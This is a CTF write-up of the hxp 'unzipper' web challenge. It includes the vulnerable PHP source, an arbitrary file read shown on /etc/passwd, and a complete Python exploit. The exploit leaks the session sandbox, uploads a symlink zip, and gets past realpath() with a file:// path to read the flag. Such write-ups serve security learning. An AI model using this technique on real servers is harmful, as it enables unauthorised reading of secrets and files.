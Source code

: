 # unzipper

**Category**: web \
**Difficulty**: medium \
**Points**: 172 points (49 solves) \
**Author**: hlt

Here, let me unzip that for you.

Download: [unzipper.tar.xz](unzipper.tar.xz)

Connection: http://65.108.176.76:8200/

## Overview

Another small challenge:

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```

- We can upload a zip, and the server will unzip it for us in a randomly-named
  sandbox directory. They use these `unzip` parameters:
  - `-n`: Do not overwrite existing files when unzipping
  - `-qq`: Quiet output

- We have arbitrary file read: http://65.108.176.76:8200/?file=/etc/passwd
  - However, `realpath()` returns the absolute pathname, resolving relative
    directories and symlinks.
  - The return value of `realpath()` can't contain `flag`, so simply reading
    `/flag.txt` is not possible.

- The lock file is to prevent race conditions with script running in the
  background that periodically deletes uploaded files

## Solution

> Solved with Youssef

First notice that we can use the `PHPSESSID` cookie and read our `$_SESSION` data from `/var/lib/php/sessions/`. This allows us to get `$sandbox`:

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")
```

```
[+] PHPSESSID = t7fl8v188kg8gd0ai3c3be0qq1
[+] sandbox = 29eca32e80f80d0230f27ddcb3a90377
```

Next I tried uploading a symlink to `/flag.txt` inside a zip and reading the symlink using `http://65.108.176.76:8200/?file=/var/www/html/data/{sandbox}/{symlink}`, but that didn't work because `realpath()` simply resolved the path to `/flag.txt`, which failed the check:

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

At this point Youssef had to idea of using `file://`.

What if we created a zip file with this directory structure?
```
$ ls --tree file: leak.lnk
file:
└── var
   └── www
      └── html
         └── data
            └── ccf86389404367cb06bab3ba41c71c27
               └── leak.lnk (symlink to /flag.txt)
leak.lnk -> /flag.txt
```

```
root@229a6d68a68b:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27# psysh
Psy Shell v0.11.0 (PHP 7.4.25 _ cli) by Justin Hileman
>>> realpath('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
=> "/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk"
>>> readfile('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
hxp{fleg}
=> 10
```

Notice that `realpath()` does the following translation
```
file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
```
which it interprets as a relative file path. Notice that this `leak.lnk` is not a symlink to `/flag.txt`, but actually just an empty directory.

The actual symlink to `/flag.txt` is located in `/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk`, which `readfile()` will read.

Props to Youssef for coming up with this solution!

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")

symlink = "leak.lnk"
file_url = f"file:///var/www/html/data/{sandbox}/{symlink}"

os.system("rm -rf leak.lnk go.zip file:")
os.system(f"ln -s /flag.txt leak.lnk")
os.system(f"mkdir -p {file_url}")
os.system(f"zip --symlinks -r go.zip file: {symlink}")

files = {"file": open("go.zip", "rb")}
res = s.post(f"{url}", files=files)
res = s.get(f"{url}/?file={file_url}")
print(res.text)
```

```
$ python3 solve.py
[+] PHPSESSID = 10a5nlegdvdl0o99a6e5khkedm
[+] sandbox = a8a188a8460b7a11b7bbad7f2a8562c6
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/leak.lnk/ (stored 0%)
  adding: leak.lnk (stored 0%)
hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}
```

## Note

The challenge set `php_admin_value[allow_url_fopen] = 0`. However, this still
lets use use PHP's various [stream
wrappers](https://www.php.net/manual/en/wrappers.php). Notice `file://` is not
restricted by `allow_url_fopen`, as indicated here:
https://www.php.net/manual/en/wrappers.file.php

You can also see this in the [source code](https://github.com/php/php-src/blob/PHP-7.4.25/main/streams/streams.c#L1865), where `plain_files_wrapper->is_url == 0`.
